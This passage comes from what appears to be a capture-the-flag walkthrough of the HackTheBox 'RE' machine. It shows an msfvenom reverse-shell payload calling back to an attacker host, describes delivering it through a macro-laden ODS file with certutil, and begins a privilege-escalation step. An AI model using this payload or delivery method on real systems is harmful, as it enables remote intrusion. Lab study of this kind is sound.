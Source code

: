 ```
# msfvenom -p java/shell_reverse_tcp LHOST=10.10.15.203 LPORT=1234 -f jar -o dick.jar
Payload size: 7548 bytes
Final size of jar file: 7548 bytes
Saved as: dick.jar
```

We host the file with Python's `SimpleHTTPServer` module. Upon opening the ODS file, the macro will download the payload with `certutil.exe` and write to `c:\windows\tracing\dick.jar`, a place where `Everyone` has write access. Next, we `put` in a new ODS file to execute the reverse shell.

We should get a reverse shell if nothing goes wrong.

<a class="image-popup">
![cb9b7f25.png](/assets/images/posts/re-htb-walkthrough/cb9b7f25.png)
</a>

Sweet. The `user.txt` is at `luke`'s desktop.

<a class="image-popup">
![883dc28f.png](/assets/images/posts/re-htb-walkthrough/883dc28f.png)
</a>

## Privilege Escalation

During enumeration of `luke`\'s account, I noticed a scheduled task running `process_samples.ps1` under `luke`\'s privileges.

~~~~powershell
$process_dir = "C:\Users\luke\Documents\malware_process"
$files_to_analyze = "C:\Users\luke\Documents\ods"
$yara = "C:\Users\luke\Documents\yara64.exe"
$rule = "C:\Users\luke\Documents\ods.yara"      

while($true) {
	# Get new samples      
	move C:\Users\luke\Documents\malware_dropbox\* $process_dir

	# copy each ods to zip file
	Get-ChildItem $process_dir -Filter *.ods |                 
	Copy-Item -Destination {$_.fullname -replace ".ods", ".zip"}

	Get-ChildItem $process_dir -Filter *.zip | ForEach-Object {

		# unzip archive to get access to content
		$unzipdir = Join-Path $_.directory $_.Basename     
		New-Item -Force -ItemType directory -Path $unzipdir | Out-Null       
		Expand-Archive $_.fullname -Force -ErrorAction SilentlyContinue -DestinationPath $unzipdir               

		# yara to look for known malware
		$yara_out = & $yara -r $rule $unzipdir
		$ods_name = $_.fullname -replace ".zip", ".ods"
~~~~
